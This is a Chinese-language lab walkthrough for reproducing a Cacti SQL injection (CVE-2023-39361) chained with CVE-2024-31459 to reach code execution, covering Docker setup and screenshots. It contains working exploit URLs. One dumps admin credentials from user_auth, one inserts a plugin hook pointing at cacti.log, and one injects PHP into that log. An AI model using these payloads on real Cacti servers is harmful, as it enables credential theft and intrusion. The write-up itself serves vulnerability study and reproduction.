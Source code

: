 # Cacti graph_view.php SQL注入导致远程代码执行漏洞（CVE-2023-39361/CVE-2024-31459）

Cacti是一个全面的网络图形化解决方案，旨在利用RRDTool的数据存储和图形功能，为网络管理员提供直观的界面来监控和分析网络性能数据。

在Cacti 1.2.24及更早版本中，graph_view.php文件存在一个严重的漏洞，当启用guest用户时，未经任何身份验证的攻击者通过'rfilter'参数即可执行SQL注入攻击，最终可能导致远程代码执行。

参考链接：

- <https://github.com/Cacti/cacti/security/advisories/GHSA-6r43-q2fw-5wrg>
- <https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv>

## 环境搭建

执行以下命令启动Cacti 1.2.24服务器：

```
docker compose up -d
```

服务器启动后，访问`http://your-ip:8080`进入Cacti界面。默认凭据为admin/admin。

请以管理员身份登录并按照初始化说明进行操作。只需重复点击"下一步"按钮，直到看到成功页面。

该漏洞如果需要未认证利用，必须启用guest用户。你可以以管理员身份登录，导航至`Configuration -> Authentication`页面，并启用guest用户：

![](1.png)

## 漏洞复现

该漏洞位于`graph_view.php`文件中的`grow_right_pane_tree`函数内。当action参数设置为'tree_content'时，用户输入的rfilter参数由`html_validate_tree_vars`函数验证。然而，这种验证仅确保输入是有效的正则表达式，无法防止SQL注入。

要利用此漏洞，向graph_view.php端点发送带有以下参数的请求：

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,(select%20concat(id,0x23,username,0x23,password)%20from%20user_auth%20limit%201),4,5,6,(select%20user()),(select%20version()),9,10%23
```

可见，数据库信息和管理员账号密码已被爆出：

![](2.png)

由于Cacti支持堆叠查询，你可以利用此漏洞结合[CVE-2024-31459](https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv)实现本地文件包含。

首先，添加一个指向`log/cacti.log`文件的新插件钩子：

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("));INSERT%20INTO%20plugin_hooks(name,hook,file,status)%20VALUES%20(".","login_before","../log/cacti.log",1);%23
```

然后，利用报错SQL注入，将PHP代码写入`log/cacti.log`文件：

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,3,4,5,6,updatexml(rand(),concat(0x7e,"<?php%20phpinfo();?>",0x7e),null),8,9,10%23
```

此时，访问登录页面时，PHPINFO函数将执行并显示：

![](3.png)

